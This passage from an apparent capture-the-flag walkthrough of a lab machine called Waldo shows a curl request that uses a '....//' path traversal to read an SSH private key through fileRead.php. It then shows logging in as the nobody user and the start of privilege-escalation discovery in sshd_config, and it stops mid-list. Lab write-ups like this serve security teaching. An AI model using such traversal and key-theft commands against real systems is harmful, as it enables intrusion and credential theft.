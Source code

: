   ```

  root@kali# curl -s -X POST -d "file=....//....//....//home/nobody/.ssh/.monitor" http://10.10.10.87/fileRead.php | jq -r .file > ~/id_waldo_nobody

  ```

## SSH Access as nobody

Now with an ssh key, I can get a shell on Waldo as nobody:

```

root@kali# ssh -i id_rsa_waldo_nobody nobody@10.10.10.87
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

```

This gives me access to `user.txt`:

```

waldo:~$ wc -c user.txt
33 user.txt
waldo:~$ cat user.txt
32768bcd...

```

## Privesc / Pivot: nobody -> monitor

### Discovery

The next step involves noticing a bunch of things that are acting weird and some experimentation (or, if you’re on free, noticing in the process list that someone else has already sshed into localhost as monitor).
- The private key I found was named .monitor. I used it with nobody, but it didn’t have that name in it.
- monitor isn’t a user on this host.
- ssh on this box is configured to listen on 8888. When I tried to talk to 8888 from the attacker box, it hangs (remember the filtered return from the original `nmap`). But here’s the interesting parts from the ssh config:

  ```

  waldo:/tmp$ grep -e "Port " -e AllowUser  /etc/ssh/sshd_config
  Port 8888
  AllowUsers nobody

  ```
- I still see the host listening on 22 and 8888:
